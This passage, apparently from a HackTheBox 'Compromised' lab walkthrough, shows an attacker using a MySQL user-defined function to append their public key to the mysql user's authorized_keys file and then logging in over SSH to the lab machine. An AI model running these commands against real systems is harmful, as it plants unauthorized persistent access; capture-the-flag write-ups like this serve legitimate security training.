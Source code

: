 ![](/assets/images/htb-compromised/16_compromised_ssh-keygen.png)

Once we have generated our keys, we will echo out the contents of our `key.pub` file into the mysql users authorized_keys file using the UDF. This can be done with the following command.

``` sql
select exec_cmd("echo '<YOUR KEY.PUB>' >> ~/.ssh/authorized_keys")
```

![](/assets/images/htb-compromised/17_compromised_udf_auth_keys.png)

And now we should be able to ssh to the machine as the mysql user by passing the private version of our key pair with the `-i` flag.

``` bash
ssh -i key mysql@10.10.10.207
```

![](/assets/images/htb-compromised/18_compromised_ssh_mysql.png)
